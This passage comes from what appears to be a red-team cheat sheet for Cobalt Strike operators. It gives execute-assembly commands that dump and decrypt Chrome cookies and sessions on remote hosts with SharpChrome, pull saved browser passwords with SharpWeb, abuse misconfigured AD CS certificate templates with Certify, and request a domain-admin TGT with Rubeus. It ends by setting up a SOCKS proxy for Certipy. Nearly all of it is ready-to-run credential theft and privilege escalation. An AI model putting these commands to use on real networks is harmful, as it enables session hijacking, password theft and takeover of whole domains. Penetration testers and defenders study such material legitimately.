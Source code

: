 # Dumping and decryptiong Chrome user cookies and sessions on remote machines using the domain backup key (can also use local user password)
# Cookies can then be imported into Chrome/Firefox using the extension Cookie-Editor
execute-assembly C:\SharpChrome.exe cookies /pvk:key.pvk /server:SERVER.lab.com
```

### [SharpWeb](https://github.com/djhohnstein/SharpWeb) - Retrieve saved credentials in Chrome, Firefox and Edge
```
# Retrive all saved browser credentials
execute-assembly C:\SharpWeb.exe all
```

### Active Directory Certificate Services (AD CS) Attack
[Certify - GhostPack](https://github.com/GhostPack/Certify) <br />
Enumerate and abuse misconfigurations in AD CS <br />
```
# Find vulnerable certificates with Certify.exe
execute-assembly C:\Certify.exe find /vulnerable /domain:lab.com

# Request a new certificate for a vulnerable template from the above output 
execute-assembly C:\Certify.exe request /ca:lab.com\ops-dc01 /template:VulnTemplate /altname:DomainAdminUser1

# Copy the certificate private key from the above output to a file, then request a TGT using the certificate file with Rubeus
execute-assembly C:\Rubeus.exe asktgt /user:DomainAdminUser1 /certificate:C:\Temp\cert.pfx /domain:lab.com
```

[Certipy - Python](https://github.com/ly4k/Certipy)<br />
Use Python through a SOCKS proxy or a Linux VM on the domain to find and exploit misconfigured AD CS certs<br />
```
# First, start a SOCKS proxy in Cobalt Strike (or skip to the next step if you have an on-site Linux VM)
socks <port> socks5
